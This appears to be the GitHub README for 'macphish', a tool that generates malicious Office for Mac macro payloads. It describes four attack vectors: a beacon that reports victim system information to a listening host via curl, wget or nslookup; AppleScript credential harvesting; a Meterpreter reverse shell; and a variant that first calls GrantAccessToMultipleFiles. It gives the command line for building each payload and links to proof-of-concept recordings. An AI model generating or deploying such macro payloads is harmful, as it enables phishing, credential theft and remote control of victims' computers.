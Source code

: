 # macphish
Office for Mac Macro Payload Generator
![macphish](macphish-alpha.png?raw=true "macphish")

## Attack vectors
There are 4 attack vectors available:
* beacon
* creds
* meterpreter
* meterpreter-grant

For the 'creds' method, macphish can generate the Applescript script directly, in case you need to run it from a shell. 

### beacon
On execution, this payload will signal our listening host and provide basic system information about the victim. The simplest way of generating a beacon payload is:
```
$./macphish.py -lh <listening host> 
```
By default, it uses curl but other utilities (wget, nslookup) can be used by modifying the command template. 

### creds
```
$./macphish.py -lh <listening host> -lp <listening port> -a creds
```
### meterpreter
The simplest way of generating a meterpreter payload is:
```
$./macphish.py -lh <listening host> -lp <listening port> -p <payload> -a meterpreter 
```
### meterpreter-grant
The generate a meterpreter payload that calls GrantAccessToMultipleFiles() first:
```
$./macphish.py -lh <listening host> -lp <listening port> -p <payload> -a meterpreter-grant
```

For meterpreter attacks, only python payloads are supported at the moment. 

## Usage
See https://github.com/cldrn/macphish/wiki/Usage

## PoCs
* <https://drive.google.com/open?id=0BzPR8exG0kt6TlY1UWhiemVKRnc>
* <https://drive.google.com/open?id=0BzPR8exG0kt6WWUzU0tKUjFhdjg>
* <https://drive.google.com/open?id=0BzPR8exG0kt6VzlaWVVJdEtNR0k>
* <https://drive.google.com/open?id=0BzPR8exG0kt6SnJwM01KSzAzMjA>
